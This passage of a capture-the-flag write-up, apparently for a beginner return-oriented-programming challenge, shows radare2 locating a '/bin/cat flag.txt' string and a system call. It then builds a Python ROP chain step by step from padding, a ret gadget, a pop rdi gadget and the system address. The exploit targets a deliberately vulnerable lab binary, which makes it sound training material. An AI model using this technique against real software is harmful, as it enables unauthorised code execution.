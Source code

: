 {% tab title="Radare2" %}
```nasm
[0x00400697]> e search.in=dbg.maps
[0x00400697]> / /bin/cat flag.txt
...
0x00601060 hit0_0 ./bin/cat flag.txt
```
{% endtab %}
{% endtabs %}

This shows us the string is at `0x601060`.

**Finding the `system` Instruction**

We know this is inside `usefulFunction`. We want to use this rather than going directly to better simulate the code truly executing this instruction.

```nasm
   0x000000000040074b <+9>:	call   0x400560 <system@plt>
```

### Putting it all Together

Let's take each step and put it together.

**Step 1: Padding**

We need to write `0x20+0x8` bytes to reach the return pointer. We can do this with:

```python
padding = b'A' * 40
ropChain = b''
```

**Step 2: Gadgets**

We need a gadget to call `ret`.

```python
g_ret = 0x400619

ropChain += p64(g_ret)
```

We need to write the gadget to the stack. We can do this with:

```python
g_popRdi = 0x4007c3
v_catFlag = 0x601060

ropChain += p64(g_popRdi);
ropChain += p64(v_catFlag);
```

**Step 3: Go to System**

We need to write the address of `system` to the return pointer. We can do this with:

```python
f_system = 0x40074b

ropChain += p64(g_ret)
ropChain += p64(f_system)
```
